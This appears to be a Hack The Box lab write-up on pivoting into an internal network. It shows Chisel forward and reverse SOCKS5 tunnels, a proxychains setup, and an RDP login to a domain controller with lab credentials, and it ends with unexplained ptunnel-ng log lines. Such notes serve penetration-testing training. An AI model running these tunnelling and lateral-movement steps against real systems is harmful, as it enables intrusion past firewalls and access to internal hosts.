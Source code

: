 ### **Running the Chisel Server on the Pivot Host**

```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

### **Connecting to the Chisel Server**

```
dollarboysushil@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connecte
```

We can see chisel has created TCP/UDP unnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080

Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

- `socks5 127.0.0.1 1080` → in proxychains conf file

### **Pivoting to the DC**

- `dollarboysushil@htb[/htb]**$** proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123`

## **Chisel Reverse Pivot**

In previous option we set pivot host (ubuntu) as out chisel server, listening on port 1234. What if there is firewall rules restrict inbound connections to our compromised target.

In such case we will use this reverse option.

```
dollarboysushil@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

when server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.